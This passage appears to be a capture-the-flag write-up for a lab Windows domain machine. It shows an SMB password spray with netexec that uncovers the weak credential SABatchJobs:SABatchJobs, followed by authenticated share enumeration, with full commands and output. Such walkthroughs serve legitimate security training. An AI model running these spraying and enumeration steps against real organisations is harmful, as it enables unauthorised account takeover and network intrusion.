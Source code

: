 <br />

## SMB Spray Attack

<br />

At this point, we can attempt a `spray attack` with these usernames.

While it may seem naive, it's not uncommon for corporate users to use their usernames as passwords.

To perform this attack, we will run `netexec` using the `--continue-on-success` flag. This way, the tool will continue trying all credentials even after a valid match is found.

<br />

```bash
❯ netexec smb MEGABANK.LOCAL -u users.txt -p users.txt --continue-on-success
...[snip]...
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
...[snip]...

```

<br />

We get a single match - valid credentials for the `SABatchJobs` user: `SABatchJobs:SABatchJobs`.

<br />

## SMB Authenticated Enumeration:

<br />

Enumerating the shares available for this user, we find the following:

<br />

```bash
❯ netexec smb MEGABANK.LOCAL -u SABatchJobs -p SABatchJobs --shares
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
```